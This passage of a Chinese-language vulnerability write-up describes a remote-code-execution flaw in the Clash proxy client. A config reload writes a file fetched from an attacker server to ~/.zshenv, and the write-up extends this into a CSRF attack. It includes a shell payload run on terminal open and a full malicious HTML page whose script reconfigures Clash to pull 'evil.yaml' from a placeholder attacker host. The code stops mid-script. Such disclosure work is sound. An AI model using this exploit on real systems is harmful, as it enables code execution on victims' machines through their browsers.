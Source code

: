 观察 HTTP 日志可以发现，来自 Clash 的请求，请求 evil.yaml 文件，并将其写入至本地`../../.zshenv`路径。

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/0803dad4-61e6-40f1-a3fe-5f822be8125a/iterm2.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050200Z&X-Amz-Expires=3600&X-Amz-Signature=13402cc7d0c30b11adfd813b81c49f20c2bbae3f62653420ebff68980174521b&X-Amz-SignedHeaders=host&x-id=GetObject)

当打开一个 zsh 终端，如下命令就会被执行。

```shell
open /System/Applications/Calculator.app;rm -f ~/.zshenv;bash -c 'nohup sleep 10 2>&1 > /dev/null &
```

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/93552ee0-899d-47cd-bba6-b31088cce341/open-terminal-rce.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050200Z&X-Amz-Expires=3600&X-Amz-Signature=90ed2918dc7321162a2662876317b0ac22baeb2c698fc20790f2ddb7db905ab1&X-Amz-SignedHeaders=host&x-id=GetObject)

## CSRF2RCE

如上直接通过 RESTful API 的方式去触发 Clash 的漏洞，需要考虑的是，攻击者能够访问到受害者的 Clash 服务。换句话说，上述方式只有在当`external-controller`为`0.0.0.0`或攻击者能访问到的地址时，才可以实现。

当目标受害者的 Clash 配置中的`external-controller`为`127.0.0.1`时，攻击者不能直接访问到受害者 Clash 的 RESTful API，也就直接无法实现攻击。

但是不过根据官方文档的说法，Clash 的 RESTful API 支持 CORS（跨域资源共享），这样就直接解锁了跨域的限制。

> CORS

    为了能使 Clash 更加灵活，RESTful API 支持 CORS 让使用者能从浏览器使用 XHR、fetch 调用。

那么攻击者可以构造一个恶意的网页，当受害者使用浏览器访问时，浏览器将会执行攻击者精心构造的 JS 代码，此时将是受害者自身的浏览器去请求 Clash 的 RESTful API，从而间接地达到强制重载受害者 Clash 的配置文件的目的。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Breaking Clash</title>
  </head>

  <body>
    <h1 align="center">Breaking Clash</h1>
    <p align="center">
      <img
        src="https://raw.githubusercontent.com/Dreamacro/clash/master/docs/logo.png"
      />
    </p>
    <p>
      <script>
        const data = {
          payload:
            "mixed-port: 7890\nallow-lan: false\nmode: rule\nlog-level: warning\nproxy-providers:\n  provider1:\n    type: http\n    url: 'http://{{yourevilser}}/evil.yaml'\n    interval: 3600\n    path: ../../.zshenv\n    healthcheck:\n      enable: true\n      interval: 600\n      url: http://www.gstatic.com/generate_204",
        };
        fetch("http://127.0.0.1:9090/configs?force=true", {
          method: "PUT",
          headers: {
            "Content-type": "application/json; charset=utf-8",
          },
          body: JSON.stringify(data),
        })
          .then((response) => response.json())
          .then((data) => {
            console.log("Success:", data);
          })
          .catch((error) => {
            console.log("Error:", error);
```